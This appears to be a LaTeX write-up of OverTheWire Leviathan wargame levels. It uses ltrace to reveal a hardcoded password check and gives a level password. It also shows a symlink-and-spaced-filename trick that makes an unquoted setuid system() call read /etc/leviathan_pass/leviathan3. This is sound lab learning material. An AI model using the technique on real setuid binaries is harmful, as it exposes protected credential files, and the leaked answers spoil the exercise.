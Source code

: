 \documentclass[a4paper]{article}
\newcommand{\pass}[1]{\textbf{Password to enter:} \textit{#1}\\}
\newcommand{\chall}{\textbf{Challenge:} }
\newcommand{\note}[1]{\textit{\textbf{Note:} #1}\\}
\begin{document}
\begin{lstlisting}[title=the shell during reversal, numbers=left, deletekeywords={printf}]
file ./check
	check: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV),
	dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32,
	BuildID[sha1]=c735f6f3a3a94adcad8407cc0fda40496fd765dd, not stripped
ltrace ./check
	__libc_start_main(0x804853b, 1, 0xffffd774, 0x8048610 <unfinished ...>
	printf("password: ")                                       = 10
	getchar(1, 0, 0x65766f6c, 0x646f6700password: testPassword
	)                      = 116
	getchar(1, 0, 0x65766f6c, 0x646f6700)                      = 101
	getchar(1, 0, 0x65766f6c, 0x646f6700)                      = 115
	strcmp("tes", "sex")                                       = 1
	puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
	)                       = 29
	+++ exited (status 0) +++
\end{lstlisting}
\note{Line \#8: "testPassword" was manually entered}
\note{Line \#12: the executable checks our input with the string "sex", the password for the script}

\subsection*{leviathan2}
\pass{ougahZi8Ta}
\chall \textbf{ltrace} is a fantastic tool for discovering the exploit here, it's use reveals two important function calls.
\begin{lstlisting}
access("filename", 4)
\end{lstlisting}
\begin{lstlisting}[deletekeywords={file}]
system("/bin/cat filename"file content
\end{lstlisting}
\note{'file content' is output by \textbf{ltrace} as part of the executable examination}

These two functions check for read permissions of the file and pass the filename to the command line receptively. The flaw in the script lies in the quotations, the double quotes around the filename are dropped for the shell call.

This causes issues with a spaced filename, as \textbf{cat} will print out each argument given. This can be taken advantage of with the following:
\begin{lstlisting}[morekeywords={printfile}]
echo "file a" > a
echo "file a b" > 'a b'
ln -s /etc/leviathan_pass/leviathan3 b
~/printfile "a b"
\end{lstlisting}
\note{Files may need to be given read access to the others group}
\end{document}
